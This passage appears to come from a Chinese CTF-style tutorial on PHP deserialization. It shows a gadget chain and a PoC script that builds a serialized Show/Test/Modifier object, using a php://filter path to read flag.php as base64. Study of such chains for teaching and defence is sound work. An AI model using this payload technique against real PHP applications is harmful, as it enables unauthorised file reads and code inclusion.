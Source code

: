 ```
Modifier::__invoke()<--Test::__get()<--Show::__toString()<--Show::__wakeup()<--Show::__construct()
```

#### 利用POC：

```php
<?php
class Modifier {
    protected  $var='php://filter/read=convert.base64-encode/resource=flag.php' ;

}

class Show{
    public $source;
    public $str;
	public function __construct($file){
    $this->source = $file;
    }
}

class Test{
    public $p;
}

$a = new Show();
$a->str = new Test();
$a->str->p = new Modifier();
$b = new Show($a);
echo urlencode(serialize($b));
?>
```

这道题目不是利用的同名函数来执行敏感操作，而是利用函数和对象之间的传递来调用敏感函数，形成了反序列化漏洞可以任意调用文件包含函数。

相信大家通过上面的两个例子的学习已经对反序列化漏洞有了基本的理解~